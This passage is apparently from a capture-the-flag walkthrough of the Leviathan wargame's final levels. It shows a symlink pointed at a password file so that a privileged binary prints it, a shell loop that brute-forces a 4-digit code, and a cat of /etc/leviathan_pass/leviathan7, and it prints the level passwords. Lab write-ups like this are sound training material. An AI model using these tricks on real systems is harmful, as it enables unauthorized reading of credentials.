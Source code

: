 ```bash
lrwxrwxrwx 1 leviathan5 leviathan5 30 Mar 29 09:47 /tmp/file.log -> /etc/leviathan_pass/leviathan6
```

current user has all privilege , then execute that binary file

```bash
./leviathan5
YZ55XPVk2l
```

---

**Level 6:**

```bash
ls
./leviathan6
usage: ./leviathan6 <4 digit code>
```

file need 4 digit number as password , so let brute force

```bash
for i in {0000..9999}; do echo $i; ./leviathan6 $i; done
```

```
7123
$ cat /etc/leviathan_pass/leviathan7
8GpZ5f8Hze
```

**Level 7**
It is the last Level , with only Congrats !!! text
Thats All




